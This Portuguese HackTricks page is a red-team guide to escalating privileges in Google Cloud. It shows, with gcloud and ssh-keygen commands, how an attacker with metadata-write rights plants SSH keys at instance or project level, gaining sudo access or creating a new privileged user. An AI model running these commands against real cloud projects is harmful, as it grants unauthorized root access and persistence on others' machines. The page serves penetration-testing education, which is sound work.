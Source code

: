 # GCP - Adicionar Metadados SSH Personalizados

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos significativos de segurança se um invasor obtiver as permissões necessárias**.

### **Incorporação de Chaves SSH nos Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Ambiente de Hóspede Linux Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um invasor puder modificar os metadados personalizados, ele poderá fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada no sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o invasor poderá comprometer o host.

### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examinar Chaves SSH Existente na Instância:**
- Execute o comando para descrever a instância e seus metadados para localizar as chaves SSH existentes. A seção relevante na saída estará em `metadata`, especificamente na chave `ssh-keys`.
```bash
gcloud compute instances describe [INSTÂNCIA] --zone [ZONA]
```
- Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separados por dois pontos.

2. **Preparar um Arquivo de Texto para Metadados de Chave SSH:**
- Salve os detalhes dos nomes de usuários e suas chaves SSH correspondentes em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes ao adicionar novas.

3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
- Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.

4. **Atualizar os Metadados de Chave SSH da Instância:**
- Aplique os metadados de chave SSH atualizados à instância usando o comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTÂNCIA] --metadata-from-file ssh-keys=meta.txt
```

5. **Acessar a Instância Usando a Nova Chave SSH:**
- Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chaves SSH ao nível do projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o alcance do acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem aplicando **chaves SSH ao nível do projeto**. Esta abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em todo o projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH ao Nível do Projeto:**
- Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH de `meta.txt` aos metadados do projeto. Esta ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em todo o projeto" habilitada.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acessar as Instâncias Usando Chaves em Todo o Projeto:**
- Com as chaves SSH em todo o projeto configuradas, você pode acessar as instâncias dentro do projeto via SSH. As instâncias que não bloqueiam as chaves em todo o projeto aceitarão a chave SSH, concedendo acesso.
- Um método direto para acessar uma instância é usando o comando `gcloud compute ssh [INSTÂNCIA]`. Este comando utiliza seu nome de usuário atual e as chaves SSH definidas ao nível do projeto para tentar o acesso.


# Referências
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
